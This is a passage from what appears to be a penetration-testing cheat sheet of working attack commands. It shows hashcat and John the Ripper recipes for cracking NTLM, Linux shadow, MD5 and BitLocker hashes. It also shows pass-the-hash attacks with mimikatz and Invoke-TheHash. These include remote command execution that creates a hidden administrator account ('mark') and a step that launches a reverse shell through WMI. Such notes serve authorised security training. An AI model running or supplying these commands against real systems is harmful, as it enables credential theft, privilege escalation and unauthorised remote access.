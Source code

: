 ```shell
# Cracking bitlocker
bitlocker2john -i Backup.vhd > backup.hashes
grep "bitlocker\$0" backup.hashes > backup.hash
```
### Hashcat
Another very useful tool. [Source link](https://hashcat.net/hashcat/)
```shell
# NTLM hashes using a wordlist
hashcat -m 1000 dumpedhashes.txt /usr/share/wordlists/rockyou.txt

# Single NTLM hash
hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt --show

# Cracking passwd.bak and shadow.bk
unshadow /tmp/passwd.bak /tmp/shadow.bak > /tmp/unshadowed.hashes
hashcat -m 1800 -a 0 /tmp/unshadowed.hashes rockyou.txt -o /tmp/unshadowed.cracked

# MD5
hashcat -m 500 -a 0 md5-hashes.list rockyou.txt

# Hashcat with John for bitlocker
hashcat -m 22100 backup.hash /opt/useful/seclists/Passwords/Leaked-Databases/rockyou.txt -o backup.cracked
```
# Pass the Hash
We'll be using [`mimikatz`](https://github.com/ParrotSec/mimikatz) for this. Another tool is [`Invoke-TheHash`](https://github.com/Kevin-Robertson/Invoke-TheHash). 

**Running Pass the Hash Locally**
```shell
mimikatz.exe privilege::debug "sekurlsa::pth /user:<user> /rc4:<RC4 hash> /domain:<domain> /run:cmd.exe" exit
# We can also use /NTLM for NTLM hashes
# If our domain is local, we can use localhost, the computer name, or just '.'
```

**Remote On Internal Network**
```PowerShell
# From our Invoke-TheHash Directory:
Import-Module .\Invoke-TheHash.psd1
Invoke-SMBExec -Target <hostname/IP> -Domain <domain> -Username <user> -Hash <NTLM Hash> -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose

# Running a reverse shell
# Note that we need to do the first import from above before this
# We'll also need a listener using netcat
Invoke-WMIExec -Target DC01 -Domain <domain> -Username <user> -Hash <NTLM> -Command "<powershell reverse shell>"

```
